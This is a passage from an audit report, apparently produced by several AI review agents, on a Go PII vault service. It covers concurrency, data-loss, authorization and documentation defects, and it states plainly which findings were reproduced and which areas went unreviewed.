| 15 | Are security boundaries correctly enforced? | PARTIALLY | Authn, PASETO verification, secret comparison, unlock/OTI single-use and portal CSRF are sound; but AUTHZ-1 (no rate limit on the primary PII read or any chain-appending endpoint), AUTHZ-2/OPS-CLI-CONFIG-4 (bootstrap mints a non-expiring `admin.unlock` credential), AUTHZ-3 (Redis limiter fails open for the brute-force bucket), TOKENS-LOOKUP-6 (`oti.issue` discloses attributes without `attributes.read`) and CRYPTO-2/-3/-7 (retirement leaves derived tokens and value-token hashes exploitable) are real gaps. |
| 16 | Are the tests sufficient to prove the important guarantees? | NO | Sixteen test findings, including vacuous or aftermath-only tests for the exact invariants they name (TESTS-1, TESTS-4, TESTS-5, TESTS-7, TESTS-15), no test for the stranded-SENDING erasure queue (TESTS-3), no two-process test anywhere (TESTS-12), and a CI matrix that never runs the default configuration (TESTS-11). |
| 17 | Does the documentation accurately describe the implementation? | NO | Sixteen documentation findings, several of them operationally load-bearing: DOCS-1 (the prescribed sealer grant silently stops sealing), DOCS-3 (promised webhook retry does not exist), DOCS-14 (DR runbook omits the file object store), DOCS-4 ("holds no state" is false for the shipped compose file), DOCS-5 (the OpenAPI "source of truth" rejects a valid request). |

### Q1 — Safe to run in production?

No, not as-is. The blocking set is small and specific. Two ordinary users registering the same e-mail concurrently produce two person rows (DB-TXN-1, reproduced: the loser's token INSERT returns `INSERT 0 0` with no error because `ON CONFLICT DO NOTHING` swallows the unique violation, which also makes the documented 23505 retry unreachable) — one of those persons is then unreachable by lookup *and* by erasure. The Article 17 downstream-notification queue loses messages permanently: `erasure_events` rows are claimed as `SENDING` before the POST, and nothing in the entire codebase ever returns them to `PENDING` (verified by exhaustive grep for `SENDING` and `claimed_at`), so a SIGTERM or a client disconnect during delivery silently drops a legal obligation. `keys rekey -reencrypt-pii` — a routine, documented operation — resurrects a person erased mid-sweep, both their PII blob (the staleness guard COALESCEs the erasure's NULL back to the value it compares against) and their search tokens, and `Lookup` has no `erased_at` predicate to catch it. And a single plain INSERT of a sealed-looking audit row with a NULL `chain_seq` permanently disables sealing, verification and anchoring, and in sync mode takes the API down (reproduced end to end). None of these needs an attacker. All are fixable without redesign.

### Q4 — Can data be lost?

Yes, on several independent paths. The two outbox queues have opposite failure modes and both lose: `portal_outbox` turns a transient signer or Vault error into a permanent `FAILED` (QUEUE-WORKER-5) and treats an unregistered mailer as terminal (QUEUE-WORKER-6); `erasure_events` is at-most-once by construction with no durable ack (QUEUE-WORKER-1, -3). Beyond queues, two silent attribute-loss paths exist inside normal operation: the rekey sweep's guarded write cannot detect a concurrent `mergeIntoBlob` that happens to keep the same `(key_id, alg)`, so the documented online algorithm migration can drop attributes without a single log line (TOKENS-LOOKUP-2), and OTI's allowlist strip runs *after* the transaction commits as an unlocked read-modify-write, losing whatever landed in between (DB-TXN-5). File ciphertext can be destroyed by an ambiguous COMMIT: the reap defer fires because `committed` was never set, but the row is in fact present (FILES-STORAGE-1), and the mirror case — a PUT that lands but reports failure — leaves ciphertext that `RunFileGC` structurally cannot find, since victims come only from `files` rows (FILES-STORAGE-3).

### Q13 — Can multiple instances safely operate simultaneously?

No. The audit chain, the part most likely to be doubted, is actually correct across replicas: every sync append and every sealing transaction takes `pg_advisory_xact_lock(0x53554E44)`, no code sets a non-default isolation level, and `audit_chain_seq_uq` backstops it — a fork or duplicate `chain_seq` is not reachable. Everything else assumes one process. `KeyRing` caches key versions for 30 seconds and `Invalidate` is process-local, so a `keys retire` on node A leaves node B matching and minting under the retired version for up to 30s while the CLI prints that retirement took effect immediately (CONCURRENCY-CORE-4, DOCS-12). `FileKeystore`'s stale-lock reclaim generates material with no mutual exclusion at all, so two processes on a shared volume can mint different keys for the same name (CONCURRENCY-CORE-6). The upload semaphore, the in-memory rate limiter and the `enumWarned` latch are per-replica by construction. And with `SUNDER_FILES_STORAGE=local` — the value the shipped compose file uses — files written by one replica are simply invisible to the others, while three separate docs pages assert the service holds no state (DOCS-4). No test in the repository runs two processes against one database (TESTS-12), so none of this is caught.

### Q15 — Are security boundaries correctly enforced?

Partially, and the failures are at the edges rather than in the core. The core held up under a full read: PASETO v4.public verification (PAE encoding, footer rejection, signature before payload trust, kid restricted to live keyring versions, small-order public-key blacklist), Shamir's GF(256) arithmetic and its constant-time checksum, per-file DEKs with chunk-index-and-file-id AAD, constant-time secret comparison with a decoy compare on the not-found path, atomic single-use for unlock tokens, magic links and OTIs, `SameSite=Strict` portal cookies, and no SQL built from user input. The gaps are compensating-control gaps. The primary PII read endpoint and every chained-audit write endpoint have no per-client rate limit at all — and `api/openapi.yaml` agrees with the code, which is why no test catches it (AUTHZ-1). `sunder bootstrap` creates the exact artifact every other grant path refuses by name: a non-expiring credential holding `admin.unlock` (AUTHZ-2). The Redis limiter fails *open* for the credential brute-force bucket and the credential-less share fetch, while only `portal:`/`claims:` fail closed (AUTHZ-3). `oti.issue` discloses attribute values and predicate bits without requiring `attributes.read` — the gate that was added to shares was never applied here (TOKENS-LOOKUP-6). And key retirement is closer to cosmetic than the docs claim: derived `name_phonetic`/`phone_suffix` tokens are never purged (CRYPTO-2), `value_tokens.unique_hash` is never re-keyed and leaves an offline dictionary oracle over IBANs and PANs (CRYPTO-3), and every decrypt path trusts the row's stored key id without consulting the keyring (CRYPTO-7).

### Q17 — Does the documentation accurately describe the implementation?

No, and the divergences are concentrated exactly where an operator would follow the text literally. The sealer DB-role GRANT in `docs/CONFIG.md` and two docs-site pages lists three columns; the statements the sealer actually issues need more, so following the runbook silently stops the audit chain from sealing (DOCS-1). `THREAT-MODEL.md` names `sunder_audit_unsealed_rows` "the alarm" for the async sealing window, and no shipped alert rule or dashboard panel references it (DOCS-2, OPS-CLI-CONFIG-8). The erasure-webhook page promises retry-until-FAILED for a queue that has no reaper (DOCS-3). The backup/DR runbook's "what state exists" table omits the file object store entirely, so a restore that follows it loses every uploaded file (DOCS-14). `rights-and-consent.md` states search tokens survive retention and consent decisions survive erasure; the code deletes both (DOCS-9). The OpenAPI file, presented as the source of truth and served from the binary, omits five live request/response fields and its `LookupRequest` schema rejects a valid F2 request (DOCS-5). Notably, several of these are contradicted *correctly* elsewhere in the same docs tree — `docs/API.md` and `THREAT-MODEL.md` get right what the docs-site pages get wrong — so the problem is drift between surfaces, not a single wrong author.

---

## 12. Audit Coverage & Limits

### What was reviewed

Eleven parallel dimension passes plus a completeness critic covered the following, reading implementation source rather than comments, tests, docs, or the pre-existing `CODE-REVIEW.md` (treated throughout as unverified claims and not cited as evidence for any finding):

- **`internal/service`** — read in full across passes: `gdpr.go`, `contacts.go`, `portal.go`, `valuetoken.go`, `files.go`, `oti.go`, `shares.go`, `links.go`, `unlock.go`, `external.go`, `versions.go`, `rekey.go`, `keyring.go`, `lookup.go`, `predicates.go`.
- **`internal/audit`** — `audit.go`, `reads.go`, `anchor.go` in full.
- **`internal/crypto`** — `pii.go`, `engine.go`, `tokens.go`, `paseto.go`, `keystore.go`, `signer.go`, `shamir.go`, `recovery.go`, `ed25519_keys.go`, `normalize.go`, `phonetic.go` in full.
- **`internal/api`** — `server.go`, `contacts.go`, `gdpr.go`, `oti.go`, `audit.go`, `lookup.go`, `files.go`, `links.go`, `shares.go`, `tokens.go`, `portal.go`, `portal_spa.go`.
- **`internal/auth`**, **`internal/ratelimit`** (both limiters), **`internal/storage`** (`storage.go`, `local.go`, `s3.go`), **`internal/config`**, **`internal/store`**, **`internal/metrics`**, **`internal/testutil`**.
- **`internal/playground`** — 8 files, ~1,530 lines, read in full by the completeness critic after every dimension pass had declared it out of scope; it is a shipped binary holding five working vault credentials including `admin.unlock`, `dsr.erase` and `tokens.delete`.
- **`cmd/sunder`** (`main.go` 1,233 lines, `import.go`, `shamir.go`) and **`cmd/playground`**.
- **Migrations 0002–0034.** Read in full: 0003, 0004, 0005, 0008, 0012, 0014, 0016, 0017, 0018, 0021, 0022, 0023, 0025, 0026, 0027, 0030, 0032, 0033, 0034. The remainder (0006, 0007, 0009–0011, 0013, 0015, 0019, 0020, 0024, 0028, 0029, 0031) were verified indirectly: every column list in every cited INSERT/UPDATE/DELETE was checked against the Go source, and the schema map was spot-checked against 0003/0017/0018/0028/0029 and found accurate.
- **Non-code surfaces** — `api/openapi.yaml`, `docs/*.md` (API, CONFIG, THREAT-MODEL, three runbooks, README), ~20 `docs-site` pages, `deploy/helm`, `deploy/provision`, the three compose files, `Dockerfile`, `.github/workflows`, `ops/prometheus-alerts.yaml`, `ops/grafana-dashboard.json`, `migrate/databunker/main.go`, `sdks/go`, `sdks/python`.

### What was NOT reviewed

`sdks/java`, `sdks/php`, `sdks/dotnet` were not opened at all, and `sdks/typescript` only at grep level — GAP-3 (blind retry of a non-idempotent POST) is **proven for the Go SDK only**; the docs claim identical retry policy across all six, so the other five are suspected, not established. `benchmark/bench.go` was read only via flag grep and `benchmark/bulkload/main.go` only for its first 120 lines. `internal/playground/scenarios/*.json` were not individually read (the scenario set is the playground's request allowlist, so what the shipped walkthroughs actually invoke is unverified). `docs/WHITEPAPER.md`, `ARCHITECTURE.md`, `PROVISIONING.md`, `PARITY-AUDIT.md`, `DESIGN-EUDI-GATEWAY.md`, `CHANGELOG.md` and roughly 25 `docs-site` pages were not read end to end — further claim/implementation drift very likely remains there. `internal/storage/s3.go`'s SigV4 implementation was skimmed for shape (canonical request, per-day signing-key chain, payload hash) rather than audited line by line. No test file was read line by line outside the tests pass; several large suites (`userid_e2e_test.go` 1,536 lines, `ops_cli_test.go` 1,113 lines, the file-vault, predicate and Shamir CLI suites) were inventoried by function name only.

### What could not be verified statically

Stated explicitly:

- **No test suite was executed against a live Postgres.** `internal/testutil.NewDB` skips unless `SUNDER_TEST_DB_URL` is set, and the repository's own suite was never pointed at a database.
- **No dynamic race run.** `go test -race` was not executed anywhere in this review. `go vet ./...` was run and is clean (no copied-mutex, no lostcancel), which is a far weaker signal.
- **No dependency CVE scan** was performed — no `govulncheck`, no SBOM, no module-version review. Third-party supply-chain risk is entirely unassessed.
- **SDKs were reviewed only for API drift and, for Go, retry behaviour** — not for correctness of their crypto handling, error surfaces, or concurrency.
- **No Kubernetes or container behaviour was exercised.** Every claim about probe defaults, EROFS under `readOnlyRootFilesystem`, and Pod Security Admission is reasoned from the manifests plus documented defaults — which is why OPS-CLI-CONFIG-6 and -7 are the weakest of the ops findings.
- **Benchmark numbers in README were not reproduced**; DOCS-11 reports only the internal contradiction between README and THREAT-MODEL, not which figure is right.

Some findings *were* reproduced empirically against throwaway PostgreSQL instances (14.23 and 16) using the repo's own migrations, with the working tree left clean afterwards: DB-TXN-1 (two committed persons for one e-mail token, loser's INSERT returning `INSERT 0 0` silently), DB-TXN-3 (`ERROR: deadlock detected` with the OTI verify as victim), DB-TXN-4 (a consents row committed against a person with `erased_at` set), AUDIT-CHAIN-1, -2, -4 and -6 (all four reproduced end to end, including `Verify` returning `broken=0, err=nil` after the chain's tail was deleted), and FILES-STORAGE-2 (measured 256 MiB HeapAlloc for a 64 MiB upload body).

### CONFIRMED vs PLAUSIBLE

**116 findings total: 105 CONFIRMED, 11 PLAUSIBLE.**

CONFIRMED means a second agent independently re-traced the cited statements and reached the same conclusion. It does **not** mean the failure was observed at runtime — only seven findings were reproduced against a database, and those are named above.

The 11 PLAUSIBLE findings — raised once, not independently re-traced — are: **GAP-1** (HIGH: `portal_outbox.payload` is the one pii-kek-sealed store the rekey sweep omits, leaving plaintext e-mail and live magic-link tokens decryptable by a retired KEK), **GAP-2** (Article 15 access omits recipients of disclosures), **GAP-3** (Go SDK blind-retries `POST /v1/oti`), **GAP-4** and **GAP-5** (playground lock convoy; playground inbox cross-session delivery via a constant `demo_name`), **CRYPTO-6** (FileKeystore reclaim vs. shared-volume clock skew), **AUTHZ-5** (public share endpoint trusts a portal-configured client-IP header), **AUDIT-CHAIN-5** (read event committing across the hour boundary), **AUDIT-CHAIN-8** (unbounded, undeletable `audit_read_buckets`), **FILES-STORAGE-7** (unordered GC victim window can starve), **TESTS-9** (fault-injection asserts errors, never rollback completeness). GAP-1 is the one that most deserves a second pair of eyes: it is the only HIGH in the set, and its exploit step — opening a seven-day-old payload under the retired key — follows from `PIIBox.OpenBytes`' AAD construction but was not executed.

### What a follow-up pass should do first

Stand up a real Postgres, point `SUNDER_TEST_DB_URL` at it, and run the suite three ways — `-race`, `-count=1 -shuffle=on`, and once in the **default** configuration (async sealing + bucketed reads) that CI never exercises (TESTS-11) — before touching any code; that alone will move several PLAUSIBLE findings to proven or dead and may surface defects no static pass can reach. Then re-trace GAP-1 by hand, since a HIGH that rests on a single unreviewed reading is the largest single uncertainty in this report. After that, the highest-value structural work is the two systemic patterns behind roughly a third of the findings: the *check-tombstone-on-the-pool-then-write-in-a-later-transaction* shape (DB-TXN-4, GDPR-ERASURE-5/-6, DB-TXN-8, FILES-STORAGE-4 — a fix already exists in-tree at `contacts.go:585-590` and needs only to be applied uniformly), and the *claim-without-a-lease* shape in both outbox workers (QUEUE-WORKER-1/-2/-3/-4 — `claimed_at` exists in migration 0018 and is written by nothing, and `erasure_events` lacks the column entirely). Fixing those two shapes closes more ground than fixing any ten individual findings.
